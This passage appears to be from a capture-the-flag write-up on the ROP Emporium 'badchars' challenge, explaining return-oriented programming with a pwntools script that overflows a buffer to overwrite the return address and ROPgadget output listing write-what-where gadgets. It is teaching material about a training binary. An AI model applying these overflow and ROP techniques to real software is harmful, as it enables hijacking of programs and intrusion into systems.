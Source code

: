 
Normally, this pointer would just resume whatever function call was occurring before. But we can change that. The way [ROP (Return-oriented-programming)](https://en.wikipedia.org/wiki/Return-oriented_programming) works is by making the `ret` instruction jump to a different function than expected. 

If we can overwrite the bytes `0x28` above where our input is read, at `0x007fffffffda98`, we can overwrite the address that `ret` will return to.

For example, here's how we could jump back to `pwnme` after the `ret`:
```py
from pwn import *

elf = ELF('./badchars')
p = process('./badchars')

payload = b'A' * 0x28 # 0x28 bytes of padding
payload += p64(elf.symbols['pwnme']) # overwrite the return address

p.sendline(payload)
p.interactive()
```

This will overwrite the return address with the beginning of the `pwnme` function, so it will just run the function again.

But we need to actually do something useful, including writing to memory...

## Gah-dgets
First of all, let's figure out what we can do with an arbitrary jump. 

In ROP, most of the time you'll be using gadgets. These are small pieces of code that come from pre-existing functions in the binary. They're usually just a few instructions long, and they're useful for doing things like writing or reading memory. 

Additionally, these gadgets usually end with another `ret` or `jmp` instruction, so that they can be chained together.

We can use the tool [`ROPgadget`](https://github.com/JonathanSalwan/ROPgadget) to find useful gadgets in the binary:
```bash
ROPgadget --binary badchars --ropchain
```
```text
Gadgets information
============================================================
[lots of gadgets here]

Unique gadgets found: 83

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x400634 mov qword ptr [r13], r12 ; ret
        [+] Gadget found: 0x40069e pop r13 ; pop r14 ; pop r15 ; ret
        [+] Gadget found: 0x40069c pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        [-] Can't find the 'xor r12, r12' gadget. Try with another 'mov [reg], reg'

        [-] Can't find the 'mov qword ptr [r64], r64' gadget
```
